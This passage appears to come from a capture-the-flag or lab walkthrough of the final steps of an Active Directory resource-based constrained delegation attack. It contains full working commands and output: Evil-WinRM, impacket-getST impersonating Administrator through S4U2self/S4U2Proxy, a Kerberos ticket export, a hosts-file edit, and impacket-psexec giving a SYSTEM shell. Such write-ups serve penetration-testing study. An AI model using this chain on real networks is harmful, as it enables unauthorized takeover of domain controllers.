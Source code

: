```
*Evil-WinRM* PS C:\Users\L.Livingstone\Documents> Get-adcomputer resourcedc -properties msds-allowedtoactonbehalfofotheridentity |select -expand msds-allowedtoactonbehalfofotheridentity

Path Owner                  Access
---- -----                  ------
     BUILTIN\Administrators resourced\ATTACK$ Allow
```

We now need to get the administrator service ticket. We can do this by using `impacket-getST` with our privileged machine account.

```
┌──(kali㉿kali)-[~]
└─$ impacket-getST -spn cifs/resourcedc.resourced.local resourced/attack\$:'AttackerPC1!' -impersonate Administrator -dc-ip 192.168.120.181
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

This saved the ticket on our Kali host as **Administrator.ccache**. We need to export a new environment variable named `KRB5CCNAME` with the location of this file.

```
┌──(kali㉿kali)-[~]
└─$ export KRB5CCNAME=./Administrator.ccache
```

Now, all we have to do is add a new entry in **/etc/hosts** to point `resourcedc.resourced.local` to the target IP address and run `impacket-psexec` to drop us into a system shell.

```
┌──(kali㉿kali)-[~]
└─$ sudo sh -c 'echo "192.168.120.181 resourcedc.resourced.local" >> /etc/hosts'

┌──(kali㉿kali)-[~]
└─$ sudo impacket-psexec -k -no-pass resourcedc.resourced.local -dc-ip 192.168.120.181 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on resourcedc.resourced.local.....
[*] Found writable share ADMIN$
[*] Uploading file zZeQFeGQ.exe
[*] Opening SVCManager on resourcedc.resourced.local.....
[*] Creating service rEwK on resourcedc.resourced.local.....
[*] Starting service rEwK.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2145]
(c) 2018 Microsoft Corporation. All rights reserved.
 
C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> 
```

Success! We now have system access on the target system.